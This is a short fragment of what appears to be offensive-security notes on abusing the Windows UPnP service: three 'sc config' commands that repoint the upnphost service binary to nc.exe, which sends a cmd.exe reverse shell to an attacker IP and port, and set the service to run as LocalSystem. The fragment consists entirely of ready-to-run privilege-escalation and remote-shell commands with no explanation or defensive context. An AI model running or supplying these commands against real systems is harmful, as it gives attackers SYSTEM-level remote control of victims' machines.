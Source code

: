 ## UPNP Service

### Commands

```
sc config upnphost binpath= "C:\Inetpub\nc.exe <attackerip> <port> -e c:\Windows\system32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
```